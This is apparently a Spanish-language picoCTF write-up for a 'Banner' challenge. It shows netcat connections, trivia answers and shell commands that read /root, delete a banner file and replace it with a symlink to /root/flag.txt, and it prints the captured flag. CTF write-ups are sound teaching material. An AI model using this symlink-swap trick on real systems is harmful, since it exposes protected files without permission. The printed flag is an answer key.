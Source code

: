 
#### Description

Can you abuse the banner?
Additional details will be available after launching your challenge instance.


#### Hints
1. Do you know about symlinks?
2. Maybe some small password cracking or guessing


#### Solucion
1. Ingresamos al primer puerto
```
tethys.picoctf.net 58884
```
Tenemos la contrasena 
2. Ingresamos al segundo puerto
```
nc tethys.picoctf.net 50206
```

3. Contestamos las siguientes preguntas
```
What is the top cyber security conference in the world?
DEF CON

the first hacker ever was known for phreaking(making free phone calls), who was it?
john draper
```

3. ejecutar los siguientes comandos
```
cat banner
cat text
ls -la /root
rm home/player/banner
cat /root/script.py
rm /home/player/banner
ln -s /root/flag.txt /home/player/banner
```

4. le damos control C 
5. Volvemos a entrar al segundo puerto que abrimos anteriormente
```
nc tethys.picoctf.net 50206
```
y nos da la bandera
```
picoCTF{b4nn3r_gr4bb1n9_su((3sfu11y_218ef5d6}
```